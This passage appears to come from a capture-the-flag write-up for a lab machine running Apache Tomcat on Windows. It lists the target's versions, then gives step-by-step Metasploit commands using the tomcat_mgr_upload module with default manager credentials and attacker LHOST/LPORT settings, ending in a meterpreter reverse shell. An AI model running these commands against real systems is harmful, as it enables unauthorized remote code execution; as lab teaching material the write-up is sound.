 Windows Server 2012 R2, 64-bit architecture, Apache Tomcat 7.0.88, JVM version 1.8.0_171-b11  (Oracle), and lastly, Copyright 1999-2018. 

A note here on why the Copyright date may be of use: If we did search for exploits anywhere, and the disclosure or proof of concept code has a date later than the copyright date (2018 in this case) it will have a better chance of working.


<p>&nbsp;</p>
=======================================================

## Exploitation using Metasploit

=======================================================

For Metasploit, we start msfconsole and search for tomcat:

    msfconsole
    
    search tomcat

![](/images/jerry/27. meta_1.png)
![](/images/jerry/27. meta_2.png)

We are going to use option 17, exploit/multi/http/tomcat_mgr_upload

    use 17
    
    show options
    
![](/images/jerry/28. options.png)

Looking at the options, we need to set a few of them:

    set HttpPassword s3cret
    set HttpUsername tomcat
    set RHOSTS 10.10.10.95
    set RPORT 8080
    set LHOST 10.10.14.30
    set LPORT 17011

![](/images/jerry/29. set.png)

If everything looks good there, we can now run the exploit:

    run

    sysinfo
    
    getuid
    
![](/images/jerry/30. run.png)

And we have a meterpreter shell! By running the ‘sysinfo’ and ‘getuid' commands we have a bit more information. Let's drop to a shell:

    shell
    